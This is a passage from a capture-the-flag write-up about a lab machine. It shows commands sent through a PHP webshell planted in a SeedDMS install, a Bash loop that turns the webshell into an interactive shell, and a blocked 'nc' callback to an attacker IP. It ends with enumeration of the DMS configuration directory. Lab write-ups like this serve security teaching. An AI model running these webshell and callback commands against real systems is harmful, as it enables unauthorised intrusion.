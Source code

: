 

Ignoring the fact that somehow the `nc` link is configured through the
[alternatives](/update-alternatives.md), the actual `ncat`
binary has an extra `.` on the end of the permissions. That's an
indication the [SELinux is impacting the
file](https://serverfault.com/questions/778407/linux-file-permission-got-a-ending-dot-and-webserver-denied-access).

`curl` has it too:



    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=ls -l /usr/bin/curl'
    -rwxr-xr-x. 1 root root 244104 Dec 17 17:46 /usr/bin/curl



### Webshell Enum

I'll use a simple Bash loop to enumerate the box through the webshell:



    oxdf@parrot$ while :; do read -p "> " cmd; curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode "cmd=$cmd 2>&1"; done
    > id
    uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0
    > ls
    1.php
    > nc 10.10.14.7 443
    Ncat: Permission denied.



I'm not able to access `/home`:



    > ls /home
    ls: cannot open directory '/home': Permission denied



Looking at the web directories, there's a `settings.xml` for the DMS:



    > ls ../..
    1048576
    backup
    cache
    conf
    log
    lucene
    staging
    > ls ../../conf
    settings.xml
    settings.xml.template
    stopwords.txt
